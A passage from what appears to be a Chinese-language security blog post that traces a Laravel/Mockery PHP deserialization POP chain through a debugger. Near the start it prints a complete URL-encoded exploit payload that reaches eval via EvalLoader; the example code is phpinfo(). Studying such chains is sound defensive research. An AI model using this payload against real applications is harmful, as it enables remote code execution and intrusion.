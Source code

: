 接着我们来看下整条pop链，@mochazz师傅的payload

```http
http://php.local/?c=O%3A40%3A%22Illuminate%5CBroadcasting%5CPendingBroadcast%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00events%22%3BO%3A25%3A%22Illuminate%5CBus%5CDispatcher%22%3A1%3A%7Bs%3A16%3A%22%00%2A%00queueResolver%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A25%3A%22Mockery%5CLoader%5CEvalLoader%22%3A0%3A%7B%7Di%3A1%3Bs%3A4%3A%22load%22%3B%7D%7Ds%3A8%3A%22%00%2A%00event%22%3BO%3A43%3A%22Illuminate%5CFoundation%5CConsole%5CQueuedCommand%22%3A1%3A%7Bs%3A10%3A%22connection%22%3BO%3A32%3A%22Mockery%5CGenerator%5CMockDefinition%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00config%22%3BO%3A37%3A%22PhpParser%5CNode%5CScalar%5CMagicConst%5CLine%22%3A0%3A%7B%7Ds%3A7%3A%22%00%2A%00code%22%3Bs%3A18%3A%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3B%7D%7D%7D
```

用phpstorm打个断点来跟踪下。

整条pop链入口点利用的是类`Illuminate\Broadcasting\PendingBroadcast`的`__destruct`方法。

![20190822143707](https://y4er.com/img/uploads/20190822143707.png)

`$this->event`设置为`Dispatcher`类，然后进入`dispatch()`函数

`vendor/laravel/framework/src/Illuminate/Bus/Dispatcher.php`

![20190822145626](https://y4er.com/img/uploads/20190822145626.png)

这里要满足if条件，看下`$this->commandShouldBeQueued($command)`

```php
protected function commandShouldBeQueued($command)
{
    return $command instanceof ShouldQueue;
}
```

要$command实现`ShouldQueue`接口，找下

![20190822150408](https://y4er.com/img/uploads/20190822150408.png)

@mochazz师傅用的是`Illuminate\Broadcasting\BroadcastEvent`

然后进入`$this->dispatchToQueue($command)`

![20190822145801](https://y4er.com/img/uploads/20190822145801.png)

出现了`call_user_func`，这时候我们可以调用任意类的方法了，接下来寻找下可利用的类方法。

在类`Mockery\Loader\EvalLoader`的`load`方法中有eval，并且参数可控。

![20190822150655](https://y4er.com/img/uploads/20190822150655.png)

但是要绕过前面的if语句块，也就是让`class_exists($definition->getClassName(), false)`返回false。

```php
public function getClassName(){
    return $this->config->getName();
}
```
